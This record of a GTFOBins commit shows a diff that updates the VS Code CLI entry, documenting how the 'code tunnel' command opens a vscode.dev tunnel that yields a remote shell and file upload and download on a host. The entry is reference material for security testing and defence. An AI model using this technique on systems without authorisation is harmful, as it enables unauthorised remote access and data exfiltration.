

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/code.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
add file-{upload,download}

```diff
--- a/_gtfobins/code.md
+++ b/_gtfobins/code.md
@@ -1,7 +1,23 @@
 ---
 functions:
   reverse-shell:
-    - description: It can be used to create a tunnel to vscode.dev, that's accessible from anywhere, allowing to spawn a shell through it.
-      code: |
-        code tunnel
+    - description: |
+        Create a tunnel to `vscode.dev`, then complete Github device registration and browse `https://vscode.dev/tunnel/my-tunnel-name`.
+
+        Select `View \ Terminal` to spawn a shell on remote.
+      code: code tunnel -name 'my-tunnel-name'
+  file-upload:
+    - description: |
+        Create a tunnel to `vscode.dev`, then complete Github device registration and browse `https://vscode.dev/tunnel/my-tunnel-name`.
+
+        In the `Explorer` tab, select `Open Folder`, then right-click on the folder and select `Upload`.
+
+        Select file from the local file browser.
+      code: code tunnel -name 'my-tunnel-name'
+  file-download:
+    - description: |
+        Create a tunnel to `vscode.dev`, then complete Github device registration and browse `https://vscode.dev/tunnel/my-tunnel-name`.
+
+        In the `Explorer` tab, select `Open Folder`, then select a file, right-click and select `Download`.
+      code: code tunnel -name 'my-tunnel-name'
 ---
```
